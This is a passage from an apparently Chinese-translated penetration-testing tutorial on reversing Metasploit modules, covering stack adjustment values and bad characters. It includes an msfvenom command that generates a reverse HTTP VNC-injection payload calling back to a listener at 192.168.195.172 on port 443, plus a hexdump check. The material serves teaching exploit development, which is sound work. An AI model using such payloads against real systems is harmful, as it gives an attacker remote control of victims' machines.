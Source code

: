 如您所见，堆栈调整为 3500，以更准确地适应外壳代码的放置。您可以使用上面突出显示的相同方法再次计算该值。在较新的 Metasploit 模块中，您将看到带正负值的`StackAdjustment`而不是`PrependEncoder`。因此，作为模块开发人员，您不必实际计算十六进制代码。

`-3500`的堆栈调整意味着我们将此值添加到 ESP。为此，我们需要计算`-3500`的 ESP 调整，但对于该计算，我们需要将-`3500`更改为十六进制值。十六进制等价物为`-0xDAC`。

![Reversing Metasploit modules](img/image00410.jpeg)

现在，我们将调整数据打印到一个十六进制文件中。

![Reversing Metasploit modules](img/image00411.jpeg)

正如您在模块的有效负载部分所看到的，存在已知的错误字符。当我们生成初始有效载荷时，我们将把它们合并到有效载荷生成中。现在，我们用这些特性生成有效负载。

```
msfvenom -p windows/vncinject/reverse_http lhost=192.168.195.172 lport=443 -b '\x00\x0a\x0d\x20\x5c' -f raw -o payload

```

![Reversing Metasploit modules](img/image00412.jpeg)

我们验证有效负载是通过`hexdump`命令生成的。

```
hexdump -C payload

```

下图显示了该有效载荷的输出：

![Reversing Metasploit modules](img/image00413.jpeg)
